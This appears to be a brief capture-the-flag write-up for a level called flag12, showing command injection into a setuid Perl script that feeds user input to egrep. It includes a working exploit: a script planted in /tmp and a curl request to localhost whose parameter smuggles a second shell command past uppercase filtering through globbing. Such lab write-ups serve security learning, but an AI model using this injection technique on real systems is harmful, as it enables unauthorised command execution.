 # flag12

The home for this user contains an suid perl script

This script takes user input and does the following:
- substitute all lowercase letters for uppercase letters
- finds the first space and removes everything after it

..it then runs this modified input in the following command:

`egrep "^$xx" /tmp/xd 2>&1`

..where `$xx` is our user-controlled input.

We use globbing `/*/` to access a directory where we have permissions, and add a script that runs getflag, and in full uppercase letters to not be affected by the string modification, and then run `curl` to pass on params to the web server:

```bash
cat <<EOF
#!/bin/bash
getflag >> /tmp/ptdr
EOF > /tmp/WOW

chmod +x /tmp/WOW

curl localhost:4646 -G --data-urlencode 'x=X";/*/WOW;["'

cat /tmp/ptdr
```

giving us our flag, we can now login as `level13`
